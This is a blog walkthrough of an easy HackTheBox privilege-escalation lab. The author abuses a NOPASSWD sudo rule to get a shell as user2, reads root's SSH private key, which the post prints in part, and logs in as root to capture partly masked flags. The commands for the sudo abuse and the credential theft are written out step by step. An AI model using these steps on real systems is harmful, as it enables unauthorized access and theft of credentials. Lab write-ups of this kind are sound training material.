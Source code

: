 ```yaml
---
title: Privilege Escalation
draft: false
description: Mastering Privilege Escalation Techniques
date: 2023-08-11 00:00:00+0000
tags: ["HackTheBox", "SSH_Keys", "PrivilegeEscalation", "Easy", "HTB"]
categories: ["Easy", "HackTheBox", "HTB,SSH_Keys", "PrivilegeEscalation"]
featureimage: "https://blog.convisoappsec.com/wp-content/uploads/2019/10/privilegios_Prancheta-1-min.png"
---
```


### Introduction
After breaching a target's defenses and exploiting system vulnerabilities, hackers often find themselves with limited privileges. To overcome this, privilege escalation becomes essential to navigate through defenses and gain the muscle needed to carry out a successful attack.

_Disclaimer: The content presented in this article is for educational purposes only and does not endorse or encourage any form of unauthorized access or malicious activity._

### Privilege Escalation Challenge.
Welcome back to another HackTheBox challenge, an easy Capture The Flag (CTF) exercise. The past few blogs have been covering the module [Getting Started](https://academy.hackthebox.com/course/preview/getting-started). The instructions provided are as follows:
![chall desc](/images/privilege-escalation/PrivilegeEscalation1.jpg)
[SSH](https://en.wikipedia.org/wiki/Secure_Shell) (Secure Shell) is a secure network communication protocol allowing encrypted connections between computers, making it suitable for use on insecure networks.

### Observations & Findings
We begin by using the provided credentials to establish an SSH connection to the target machine:
If you're following through **Note** that the machine IP and port number might be different in your case, make sure you replace that with what you have been given.

Our first command:

```
┌──(papab3ar㉿kali)-[~]
└─$ ssh user1@94.237.49.11 -p 31973

```
Upon connection, a message about host authenticity appears. Confirm by typing "yes" and entering the provided password. A successful login grants terminal access:
```
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.10.0-18-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$

```
Attempting to list directories reveals limited information. Exploring further, we discover another user, user2:
```
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ cd ../
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:/home$ ls
user1  user2


```
Navigation to user2's directory uncovers the flag.txt file, but access is denied:
```
cat: flag.txt: Permission denied

```
What a bummer! our current user has no permission to read user2 files or documents. So now I want to see the list of permissions the users on this machine have so I use:
```
sudo -l

```
The output:
```
Matching Defaults entries for user1 on
    ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
    (user2 : user2) NOPASSWD: /bin/bash

```
Something interesting shows up here about our users. 
First, we see the text **NOPASSWD**: Indicating that our current user (user1) is allowed to run the specified commands without being prompted for a password. This can be a security feature to streamline certain processes, but it also carries some security risks.

Then we note the **/bin/bash**: This is the path to the "bash" shell executable. Allowing user1 to run "/bin/bash" means they have the ability to start an interactive shell session. This could potentially grant them significant control over the system.

With this in mind, I now want to see if it will work. So I run the following command for user2 as user1:
```
sudo -u user2 /bin/bash

```
From the terminal, this seems to have worked since the CLI switched from:
```
user1@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:
```
to this:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ 

```
Notice that we now have user2 access. So, once again, we try to read the _flag.txt_ file and manage to get the flag.
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ ls
flag.txt
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~$ cat flag.txt 
HTB{l473r4l_********_**_*******_u53r}

```
Ah great, so what, are we done? Or is there more we could do here? We have further instructions:
![chall blog](/images/privilege-escalation/PriviledgeEscalation0.jpg)
Now we try to see if we can be the **root** user for this machine, escalating our privileges even further. First I navigate to the root user folder using the following commands:
```
cd ../../
ls
cd root
```
Then I list all directories and this is the output I get:
```
user2@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:/root$ ls -a
.  ..  .bash_history  .bashrc  .profile  .ssh  .viminfo  flag.txt

```
As you can see here, we have our _flag.txt_ file. I'm tempted to open it, and I do, but again, I get denied permission to do so. I then notice another interesting directory,**.ssh**. So I navigate to it and list its contents. 

The **.ssh** folder in a user's home directory on a Unix-like operating system that contains important files and directories related to SSH (Secure Shell) authentication and communication. 

**authorized_keys**: Contains a list of public keys authorized to access the user account using SSH key-based authentication. Each line in this file represents a separate public key. When a client (remote computer) attempts to connect to the user account, the server checks if the client's public key matches any of the keys listed in this file. If there's a match, the client is granted access without needing to enter a password.

**id_rsa**: A private key file for the user's SSH key pair. The private key is kept secret and should never be shared or exposed. It is used for authentication when the user tries to log in to remote servers. When the user initiates an SSH connection, their local computer uses the private key to sign a challenge from the server, proving their identity without transmitting the actual private key. Only the corresponding public key is shared with remote servers.

**id_rsa.pub**: Contains the public key that corresponds to the private key (id_rsa). The public key can be freely shared and is typically copied to remote servers to set up key-based authentication. Remote servers use the public key to verify the user's identity during the SSH authentication process.

Now it is time to see if we have access to the **id_rsa** file. If we do, we can use the root user's private key to gain root access to this machine hence further elevating our privileges from user2. I open this file using the cat command and sure enough, I get access to the private key.
```
cat id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3nX57B1Z2nSHY+aaj4lKt9lyeLVNiFh7X0vQisxoPv9BjNppQxV
PtQ8csvHq/GatgSo8oVyskZIRbWb7QvCQI7JsT+Pr4ieQayNIoDm6+i9F1hXyMc0VsAqMk
05z9YKStLma0iN6l81Mr0dAI63x0mtwRKeHvJR+EiMtUTlAX9++kQJmD9F3lDSnLF4/dEy
            <=================SNIP===================>
34b8afl+MxqFW3I5pjDrfi5zWkCypILwAAAMEAwDETdoE8mZK7wOeBFrmYjYmszaD9uCA/
m4kLJg4kHm4zHCmKUVTEb9GpEZr1hnSSVb+qn61ezSgYn3yvClGcyddIht61i7MwBt6cgl
ZGQvP/9j2jexpc1Sq0g+l7hKK/PmOrXRk4FFXk+j6l0m7z0TGXzVDiT+yCAnv6Rla/vd3e
7v0aCqLbhyFZBQ9WdyAMU/DKiZRM6knckt61TEL6ffzToNS+sQu0GSh6EYzdpUfevwKL+a
QfPM8OxSjcVJCpAAAAEXJvb3RANzZkOTFmZTVjMjcwAQ==
-----END OPENSSH PRIVATE KEY-----

```
### Solution/Flag
I copy the key to my local machine in a file named id_rsa and save it,  then try to use it to log in as the root user using the commands:

```
──(papab3ar㉿kali)-[~]
└─$ ssh root@94.237.49.11 -p 31973 -i id_rsa
```
Let me break this command down in bits:
**ssh**: This is the command used to start an SSH connection.

**root@94.237.49.11**: This specifies the username and IP address of the remote server. In this case, the username is "root," and the IP address is "94.237.49.11."

**-p 31973**: This option specifies the port number to use for the SSH connection. The port number is set to "31973."

**-i id_rsa**: This option specifies the identity (private key) file to use for authentication. In this case, the private key file named "id_rsa" is being used for authentication.
of-course we gain access to the machine as the root user as we get the welcome banner like we got during our initial access with the root user's shell:
```
root@ng-894740-gettingstartedprivesc-jb8qw-c7f9799cb-bd827:~# 

```
So now we just list directories and read the contents of the _flag.txt_ file.
```
ls
cat flag.txt 
HTB{pr1v1l363_**********_2_r007}

```
### Conclusion
In summary, this challenge underscores the significance of privilege escalation techniques for unearthing concealed data and vulnerabilities. By leveraging SSH keys, directory permissions, and sudo privileges, we elevate our access and seize the flag.

Remember, relentless learning and exploration are paramount to mastering hacking skills. Embrace the journey, and let the quest for knowledge fuel your hacking endeavors.
